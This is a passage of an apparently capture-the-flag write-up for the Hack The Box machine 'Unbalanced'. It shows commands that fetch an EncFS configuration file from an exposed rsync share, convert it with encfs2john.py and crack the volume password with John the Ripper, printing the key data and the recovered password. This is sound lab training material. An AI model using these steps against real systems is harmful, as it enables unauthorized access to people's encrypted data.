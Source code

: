 **Note: Doing a full copy of conf_backups with rysnc didn't copied the encfs6.xml so we had to do it seperately.**

```bash
root@kali:~/CTF/HTB/Boxes/Unbalanced# rsync rsync://10.10.10.200:873/conf_backups/.encfs6.xml .
root@kali:~/CTF/HTB/Boxes/Unbalanced# cat .encfs6.xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE boost_serialization>
<boost_serialization signature="serialization::archive" version="7">
    <cfg class_id="0" tracking_level="0" version="20">
        <version>20100713</version>
        <creator>EncFS 1.9.5</creator>
        <cipherAlg class_id="1" tracking_level="0" version="0">
            <name>ssl/aes</name>
            <major>3</major>
            <minor>0</minor>
        </cipherAlg>
        <nameAlg>
            <name>nameio/block</name>
            <major>4</major>
            <minor>0</minor>
        </nameAlg>
        <keySize>192</keySize>
        <blockSize>1024</blockSize>
        <plainData>0</plainData>
        <uniqueIV>1</uniqueIV>
        <chainedNameIV>1</chainedNameIV>
        <externalIVChaining>0</externalIVChaining>
        <blockMACBytes>0</blockMACBytes>
        <blockMACRandBytes>0</blockMACRandBytes>
        <allowHoles>1</allowHoles>
        <encodedKeySize>44</encodedKeySize>
        <encodedKeyData>
GypYDeps2hrt2W0LcvQ94TKyOfUcIkhSAw3+iJLaLK0yntwAaBWj6EuIet0=
</encodedKeyData>
        <saltLen>20</saltLen>
        <saltData>
mRdqbk2WwLMrrZ1P6z2OQlFl8QU=
</saltData>
        <kdfIterations>580280</kdfIterations>
        <desiredKDFDuration>500</desiredKDFDuration>
    </cfg>
</boost_serialization>
```

We need a correct password to decrypt the files, I found [this blog](https://www.gamecreatures.com/blog/2016/06/19/encrypted-offsite-rsync-backups/) which had a section on how to use the JTR to crack the password of the EncFS directory. So we can use `encfs2john.py` to get the exact hash, in order to crack the hash we need to have `.encfs6.xml` file which we already acquired previously so I move that to the `conf_backups` folder where I store all the encrypted files.

```bash
root@kali:~/CTF/HTB/Boxes/Unbalanced# /usr/share/john/encfs2john.py conf_backups/
conf_backups/ doesn't have .encfs6.xml!
root@kali:~/CTF/HTB/Boxes/Unbalanced# cp .encfs6.xml conf_backups/
root@kali:~/CTF/HTB/Boxes/Unbalanced# /usr/share/john/encfs2john.py conf_backups/
conf_backups/:$encfs$192*580280*0*20*99176a6e4d96c0b32bad9d4feb3d8e425165f105*44*1b2a580dea6cda1aedd96d0b72f43de132b239f51c224852030dfe8892da2cad329edc006815a3e84b887add
root@kali:~/CTF/HTB/Boxes/Unbalanced# john --show hash 
conf_backups/:bubblegum

1 password hash cracked, 0 left
```
